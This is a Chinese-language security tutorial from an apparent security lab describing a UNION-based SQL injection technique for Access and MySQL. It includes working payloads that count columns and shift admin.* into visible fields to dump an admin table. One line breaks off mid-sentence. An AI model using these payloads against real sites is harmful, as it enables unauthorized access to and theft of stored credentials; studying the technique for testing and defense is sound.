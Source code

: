 ```yaml
---
title: 移位溢注：告别依靠人品的偏移注入
id: csdn63252636
---
```


## 介绍：

在Access数据库类型注入的时候，我们获取不到列名(前提是有表名)，一般会选择使用偏移注入，但是这种注入方式往往借助的是个人的人品，且步骤繁琐。本文中我们研究了一种新的注入技术让“偏移注入不在需要人品”。在这里定义这种注入技术为：“移位溢注技术”。

它适用于ACCESS和MYSQL（任何版本）

## 正文：

我们先来看看普通的偏移注入步骤：

1.判断注入点

2.order by 判断长度

3.判断表名

4.联合查询

5.获取表中列数：union select 1,2,3,4,..,* from TABLE

6.开始偏移注入：TABLE as a inner join TABLE as b on a.id=b.id

由于步骤6的方法过于需要人品值，且语句繁琐，因此在这里，我们研究新的注入技术：

首先来看看步骤6语句的整体意思：

步骤6的语句，*表示给**TALBE**取**2**个别名，然后分别用别名取查询**TALBE**的内容（表**a**和表**b**）；而__on a.id = b.id* *这样的条件是为了满足语法需求，实际并没有作用，因为相同内容的表，相同字段内容一定相同。*

这时，我们再回过头来看步骤5：

*由于联合查询中**select**后面添加数字的目的是为了让联合查询返回接结果和网站正常查询返回的结果的列数一致（不一致数据库会报错，页面无法显示），且*****表示通配符，可以表示整个表格所有列；因此这里通过数字来占位，并使用*****来替代**TABLE**中的所有列，使得联合查询可以完成，并推算出*****的值。*

这时候我们继续研究偏移注入的整体公式方法，发现即使使用多级偏移注入也需要一定的概率(人品值)才可以得到想要的结果，所以我们就尝试研究新的方法能不能替换这种不固定概率的方法。

现在我们重新整理一下SQL语句，从联合查询开始：

1.原union语句：union select 1,2,3,..,p..,n from TABLE

（p=页面爆出的数字，可能有多个p1,p2..；n=原网站查询的总列数；TALBE=我们获得的表名；下面开始就使用上述字母的定义）

2.新语句：

```
union select 1,2,3,..,p-1,TABLE.*,p+k,..,n from TABLE where 字段名 = 字段内容
```

–在p的位置爆出TALBE表中第一个字段的内容（其他位置还可能爆出更多内容）

（这里如果存在已知字段名可以使用，没有就不用，一般id这个字段时存在的，可以使用id = 1来显示第一行）

```
union select 1,2,3,..,p-2,TABLE.*,p+k-1,..,n from TABLE where 字段名 = 字段内容
```

–在p的位置爆出TALBE表中第二个字段的内容（其他位置还可能爆出更多内容）

```
union select 1,2,3,..,p-3,TABLE.*,p+k-2,..,n from TABLE where 字段名 = 字段内容
```

–在p的位置爆出TALBE表中第三个字段的内容（其他位置还可能爆出更多内容）

注：这里一定是TALBE.*而不是*

3.1 以此类推可以爆出TALBE的每一列内容。

3.2 如果p

## 原理：

1.由原语句：union select 1,2,3,..,p..,n-k,* from TABLE 可以得出该联合查询的目的是构造和原网站相同列数的查询结构，使得页面上可以显示对应的数字；这条语句相当于是做了两次查询并将它们的结果合并，第一次做了select 1,2,3,..,n-k from TALBE ，第二次做了select * from TALBE ，然后将它们的结果合并。

这可以参考mysql的语句：select 1,2,3,4,5,admin.* from admin;

![](../img/2aaa44d99cc345a401183240ae9683e6.png)![](../img/24af8ab5de13a7a39a9c5f2e8a52d02d.png)![](../img/cf88cd2e4ac3e1b32d105901bb5b0237.png)

2.只要满足原理1的要求，保障联合查询的结果和原网站查询的结果列数一致即可；因此可以将TALBE.*向前移动至页面显示的数字处来爆出TALBE列中的内容。

这可以参考mysql的语句：

```
select 1,2,3,4,5,6,7,8,9,10 from news where id =1 union select 1,2,3,4,5,6,7,admin.* from admin;

select 1,2,3,4,5,6,7,8,9,10 from news where id =1 union select 1,2,3,admin.*,7,8,9,10 from admin;
```

*注：假设数字**4**、**5**在页面显示。*

由下图可知，其实数据已近查询出来，但是页面没有显示，这个是通过平移查询结果到页面显示的数字上去，即可爆出敏感字段。

![](../img/dee1a738e17a3100059bbb24608b5016.png)![](../img/5b85695bd20db53504065d5f1b6b5279.png)

## 例子：

步骤1：判断注入点是否存在

![](../img/09a169008418275a83132aca4bb744c9.png)
步骤2：判断字段长度：order by 35

![](../img/a9123913466f6f389f1e1469c928ee01.png)![](../img/81166d2f383c0508fbc715189d6edf41.png)

步骤3：获得表名(必备条件) and exists(select * from admin)

![](../img/c3e62e4e31a9fde697c396ea20b5fee2.png)

步骤4：获取不了列名（当尝试多个常用字段名以后，最终还是发现无法获得字段名）

步骤5：使用联合查询(union select)

![](../img/7e59fb6a3879825f2bc0e6035f0df1da.png)![](../img/7e59fb6a3879825f2bc0e6035f0df1da.png)

步骤6：使用新注入技术方法

（1）获取admin表的列数：

```
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,* from admin --返回错误页面
```

。。。

```
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,* from admin --返回步骤5页面，因此admin表的列数为6
```

![](../img/ae4368b10b8d6df5f554f3429dbc4291.png)![](../img/dcbf01626c6610a78b3c1a3ea6c487ba.png)![](../img/5ca7912298ffd3fef45f8679268f71db.png)

（2）由于网页中包含连续数字，表示可以显示连续的查询结果，构造SQL语句查询前四列第一行。

```
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35 from admin
```

![](../img/04403f1ae77bd93ae7c6f2ecfcf132da.png)![](../img/6a5916ed51e6a0325f605095a8acb5ec.png)

（3）由第一行第一列内容为1，可以猜测该表有id字段，因此修改语句获取其他行。

```
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35 from admin where id = 3
```

![](../img/f52f6fa4ce83c2fe847b92e8bc3f66cc.png)

## 总结

在这里我们命名这种新注入技术为”移位溢注”。由此如果MYSQL小于5.0的情况下所具备的条件和ACCESS一样，也可以使用此方法注入，如果是MYSQL大于5.0的版本，使用此方法可以省去获得列名的步骤。

> 文章研究：米斯特安全攻防实验室 MST.Lab[@gh0stkey](http://www.zhihu.com/people/45705b3b9e46c45ebfaba974a9e5ecd7) @[Seagull](http://www.zhihu.com/people/SeagullGR)